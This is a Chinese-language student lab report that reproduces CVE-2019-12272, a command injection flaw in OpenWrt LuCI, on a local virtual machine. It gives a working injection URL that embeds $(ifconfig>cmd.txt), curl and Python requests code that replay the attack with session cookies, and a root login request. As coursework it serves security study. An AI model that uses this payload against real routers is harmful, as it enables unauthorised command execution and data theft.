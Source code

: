 # Rep0x04(Part-2) 漏洞的复现与利用（CVE-2019-12272）

### 1. 实验过程

- **漏洞环境安装**

    - 根据 [存在漏洞的固件](https://archive.openwrt.org/chaos_calmer/15.05.1/x86/64/openwrt-15.05.1-x86-64-combined-ext4.img.gz) 安装 `OpenWrt` 镜像（具体操作步骤详见 [idのchap0x01实验报告](https://github.com/CUCCS/2021-mis-public-ididChan/tree/chap0x01/chap0x01)）
    
    - 结果展示

        ![img](../img/converted-image.PNG)

        ![img](../img/iso-management.PNG)

        ![img](../img/config-info.PNG)

        ![img](../img/welcome-page.PNG)

        ![img](../img/usb-info.PNG)

        ![img](../img/ip-info.PNG)

        ![img](../img/luci.PNG)

        网络连通性检验：

        ![img](../img/ping-info.PNG)

- **漏洞复现**

    - 使用管理员账号登录LuCI

    - 使用浏览器访问 `http://192.168.56.72/cgi-bin/luci/;stok=204d72cf7576db1c22b8bce8d3392ea3/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)` 触发漏洞

    - 访问 `http://192.168.56.72/cmd.txt` 获取上一步命令执行的结果

        ![img](../img/cve-incur.PNG)

- **漏洞利用**

    - 通过 Chrome 浏览器开发者工具的「Copy as curl」功能，将漏洞复现的请求复制为 `curl 命令`
    
        ![img](../img/copy-as-curl.PNG)

        ```
        ccurl 'http://192.168.56.72/cgi-bin/luci/;stok=204d72cf7576db1c22b8bce8d3392ea3/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)' \
            -H 'Connection: keep-alive' \
            -H 'Pragma: no-cache' \
            -H 'Cache-Control: no-cache' \
            -H 'Upgrade-Insecure-Requests: 1' \
            -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36' \
            -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
            -H 'Accept-Language: zh-CN,zh;q=0.9' \
            -H 'Cookie: sysauth=784d90e9f949468fb3150d8ee0d9a961' \
            --compressed \
            --insecure
        ```

    - 通过 [第三方网站](https://curl.trillworks.com/) 将 `curl 命令` 转换为 Python requests 代码 ，再稍加改动添加继续访问 `http://192.168.56.72/cmd.txt` 并打印服务器响应，得到如下结果：

        ```
        import requests

        cookies = {
            'sysauth': '784d90e9f949468fb3150d8ee0d9a961',
        }

        headers = {
            'Connection': 'keep-alive',
            'Pragma': 'no-cache',
            'Cache-Control': 'no-cache',
            'Upgrade-Insecure-Requests': '1',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'Accept-Language': 'zh-CN,zh;q=0.9',
        }

        response = requests.get('http://192.168.56.72/cgi-bin/luci/;stok=204d72cf7576db1c22b8bce8d3392ea3/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)', headers=headers, cookies=cookies, verify=False)
        ```

    - 重新登陆，获取漏洞重放所需的 `luci_username` / `luci_password` 的参数信息，并按照相同的方式转化为 Python request 代码

        ![img](../img/copy-as-curl-relogin.PNG)

        ```
        import requests

        headers = {
            'Connection': 'keep-alive',
            'Pragma': 'no-cache',
            'Cache-Control': 'no-cache',
            'Upgrade-Insecure-Requests': '1',
            'Origin': 'http://192.168.56.72',
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'Referer': 'http://192.168.56.72/cgi-bin/luci',
            'Accept-Language': 'zh-CN,zh;q=0.9',
        }

        data = {
            'luci_username': 'root',
            'luci_password': ''
        }

        response = requests.post('http://192.168.56.72/cgi-bin/luci', headers=headers, data=data, verify=False)
        ```

    - 由以上两个步骤获得的结果可推断利用 `CVE-2019-12272` 的基本步骤如下：

        - 使用 ( `username` , `password` ) 登录

        - 从 `Response` 中获取 `sysauth` && `stok`

        - 使用以上信息发送请求，将指令回显写入文件
        
        - 访问，窃取私密信息

    
    - 面向对象的漏洞利用代码编写 [【View Code】](../code/CVE-hack.py)

        漏洞利用效果预览：

        ![img](../img/example-1.PNG)

        ![img](../img/example-2.PNG)

### 2. 参考资料

- [OpenWrt LuCI 命令操作系统命令注入漏洞](http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-201905-962)